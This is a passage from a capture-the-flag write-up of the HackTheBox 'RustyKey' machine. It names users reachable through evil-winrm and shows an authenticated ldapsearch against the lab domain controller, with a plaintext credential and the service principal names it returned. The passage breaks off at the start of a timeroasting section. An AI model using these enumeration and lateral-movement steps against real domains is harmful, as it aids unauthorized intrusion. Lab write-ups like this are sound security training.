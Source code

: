 From those user, there is 3 users which we can connect via evil-winrm: `BB.MORGAN`, `EE.REED`, `GG.ANDERSON` cause they are memeber of `REMOTE MANAGEMENT USERS@RUSTYKEY.HTB` group.

![Evil-WinRM](/assets/img/rustykey-htb-season8/evil-winrm.png)

### Timeroasting & Cracking
```bash
└─$ ldapsearch -x -H ldap://dc.rustykey.htb -D 'rr.parker@rustykey.htb' -w '8#t5HE8L!W3A' -b 'dc=rustykey,dc=htb' "(&(objectClass=computer)(servicePrincipalName=*))" samaccountname servicePrincipalName
# extended LDIF
#
# LDAPv3
# base <dc=rustykey,dc=htb> with scope subtree
# filter: (&(objectClass=computer)(servicePrincipalName=*))
# requesting: samaccountname servicePrincipalName 
#

# DC, Domain Controllers, rustykey.htb
dn: CN=DC,OU=Domain Controllers,DC=rustykey,DC=htb
sAMAccountName: DC$
servicePrincipalName: Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/dc.rustykey.ht
 b
servicePrincipalName: ldap/dc.rustykey.htb/ForestDnsZones.rustykey.htb
servicePrincipalName: ldap/dc.rustykey.htb/DomainDnsZones.rustykey.htb
servicePrincipalName: DNS/dc.rustykey.htb
servicePrincipalName: GC/dc.rustykey.htb/rustykey.htb
servicePrincipalName: RestrictedKrbHost/dc.rustykey.htb
servicePrincipalName: RestrictedKrbHost/DC
servicePrincipalName: RPC/f04f9824-3b21-4a95-91c7-3d5632f17995._msdcs.rustykey
 .htb
servicePrincipalName: HOST/DC/RUSTYKEY
servicePrincipalName: HOST/dc.rustykey.htb/RUSTYKEY
servicePrincipalName: HOST/DC
servicePrincipalName: HOST/dc.rustykey.htb
servicePrincipalName: HOST/dc.rustykey.htb/rustykey.htb
servicePrincipalName: E3514235-4B06-11D1-AB04-00C04FC2DCD2/f04f9824-3b21-4a95-
 91c7-3d5632f17995/rustykey.htb
servicePrincipalName: ldap/DC/RUSTYKEY
servicePrincipalName: ldap/f04f9824-3b21-4a95-91c7-3d5632f17995._msdcs.rustyke
 y.htb
servicePrincipalName: ldap/dc.rustykey.htb/RUSTYKEY
servicePrincipalName: ldap/DC
servicePrincipalName: ldap/dc.rustykey.htb
servicePrincipalName: ldap/dc.rustykey.htb/rustykey.htb

# search reference
ref: ldap://ForestDnsZones.rustykey.htb/DC=ForestDnsZones,DC=rustykey,DC=htb

# search reference
ref: ldap://DomainDnsZones.rustykey.htb/DC=DomainDnsZones,DC=rustykey,DC=htb

# search reference
```